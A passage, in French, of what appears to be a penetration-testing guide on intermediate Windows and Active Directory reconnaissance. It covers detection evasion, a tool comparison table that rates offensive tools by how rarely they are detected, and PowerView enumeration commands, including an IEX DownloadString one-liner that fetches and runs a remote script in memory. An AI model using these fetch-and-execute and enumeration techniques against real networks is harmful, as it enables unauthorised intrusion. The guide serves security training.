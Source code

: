 L'approche Windows-native permet de contourner les restrictions de pare-feu et les systèmes de détection en utilisant des protocoles légitimes. Les techniques incluent l'utilisation de Test-NetConnection pour les tests de connectivité, Invoke-Command pour l'exécution distribuée et Get-WmiObject pour l'énumération de services distants.

#### 1.4 Analyse des vulnérabilités et configurations de sécurité

L'évaluation intermédiaire des environnements Windows inclut l'analyse des configurations de sécurité, l'identification des vulnérabilités de patch et l'évaluation des politiques de sécurité. Cette approche nécessite la corrélation d'informations provenant de multiples sources pour identifier les faiblesses exploitables.

Les techniques avancées incluent l'analyse des GPO pour identifier les configurations dangereuses, l'énumération des services avec des privilèges élevés et l'identification des systèmes avec des versions obsolètes. Cette analyse holistique permet de prioriser les cibles et d'optimiser les phases ultérieures du test de pénétration.


### 2 • Outils & Commandes

#### Tableau comparatif des outils Windows intermédiaires

| Outil | Spécialisation | Complexité | Détection | Efficacité |
|-------|----------------|------------|-----------|------------|
| PowerView | Énumération AD | Moyenne | Faible | Très élevée |
| PowerSploit | Framework complet | Élevée | Moyenne | Très élevée |
| BloodHound | Analyse de chemins | Moyenne | Moyenne | Très élevée |
| Invoke-Portscan | Scan PowerShell | Faible | Très faible | Élevée |
| WMI | Énumération native | Moyenne | Très faible | Élevée |
| LDAP queries | Requêtes AD directes | Élevée | Faible | Très élevée |

#### PowerView pour l'énumération Active Directory

```powershell
# Import du module PowerView
Import-Module .\PowerView.ps1
# Ou téléchargement direct
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```
PowerView fournit des fonctions avancées pour l'énumération Active Directory sans nécessiter de privilèges administrateur.

```powershell
# Énumération des domaines et contrôleurs
Get-Domain
Get-DomainController
Get-DomainTrust
```
Identifie la structure du domaine, les contrôleurs disponibles et les relations de confiance inter-domaines.
